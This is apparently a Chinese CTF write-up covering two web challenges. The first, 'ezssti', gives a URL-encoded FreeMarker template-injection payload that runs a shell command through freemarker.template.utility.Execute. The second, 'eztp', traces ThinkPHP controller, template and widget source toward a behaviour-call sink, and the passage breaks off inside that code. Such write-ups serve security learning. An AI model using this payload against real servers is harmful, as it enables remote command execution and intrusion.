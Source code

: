 
### ezssti

试了下 {{1 + 1}}，报错看出是 java，于是找个 java 的 payload，居然通了...  
payload: `xxx/render?name=%3C%23assign%20value%3D%22freemarker.template.utility.Execute%22%3Fnew()%3E%24%7Bvalue(%22cat%20F1ag_is_h3re%22)%7D`

### eztp
首先，路由入口点 `/?s=home/index/textBox`
Application\Home\Controller\IndexController.class.php  
```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    ...

    public function textBox(){
        $query = urldecode(I("post.query")); # 获取 post["query"]
        parse_str($query,$array); # 作为 url参数解析并赋给 $array
        $this->assign("array",$array); # 模板渲染变量赋值
        $this->display(T("Home@default/list")); # 渲染模板
    }
}
```
Application\Home\View\default\list.html  
```htmlmixed=
<form action="/?s=home/index/textBox" method="post"> <!-- 从这里也能看出路由 -->
<label>query</label><input type="text" size="10" maxlength="30" name="query">
<input type="submit" name="" value="submit">
</form>
<textarea><?php echo W("Query/query",array("param"=>$array));?></textarea> <!-- 调用 W 函数调用 Query/query Widget -->
```
Application\Home\Widget\QueryWidget.class.php  
```php
<?php

namespace Home\Widget;

class QueryWidget
{
    public function query($text){

        if(isset($text['name'])&&isset($text['id'])){
            $info = B($text['name'],$text['tag'],$text['id']); # 条件满足则可以调用 B 函数 我们来看看这个函数的定义
            return $info;
        }else{
            var_dump($text);
        }

    }
}
```
ThinkPHP\Common\functions.php  
```php=823
<?
/**
 * 执行某个行为
 * @param string $name 行为名称
 * @param string $tag 标签名称（行为类无需传入）
 * @param Mixed $params 传入的参数
```